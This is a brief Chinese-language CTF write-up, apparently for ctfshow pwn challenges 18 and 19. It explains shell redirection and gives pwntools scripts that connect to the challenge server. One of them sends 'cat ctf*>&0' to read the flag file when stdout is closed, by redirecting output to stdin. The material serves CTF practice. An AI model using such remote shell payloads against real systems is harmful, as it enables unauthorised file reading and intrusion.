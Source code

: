 

```c
int real()
{
  return system("echo 'flag is here'>/ctfshow_flag");
}
```



一定要看清楚区别

这里直接进入fake函数即可

```
>  覆写
>> 追加
```



```python
from pwn import *

ip = 'pwn.challenge.ctf.show'
port =  28121

r = remote(ip,port)

r.recvuntil(b'flag?')
r.sendline(b'9') 

r.interactive()
```





## 19. pwn19（linux回显>&0）

关闭了输出流，一定是最安全的吗？



linux环境中文件描述符`0`代表标准输入（stdin）

`cat <&0`表示让`cat`命令从标准输入读取数据。



关闭输出流就是无回显，我们直接重定向来进行回显 `>&0`

```python
from pwn import *

ip = 'pwn.challenge.ctf.show'
port =  28207

r = remote(ip,port)

r.recvuntil(b'flag!')
r.sendline(b'cat ctf*>&0') 

r.interactive()
```
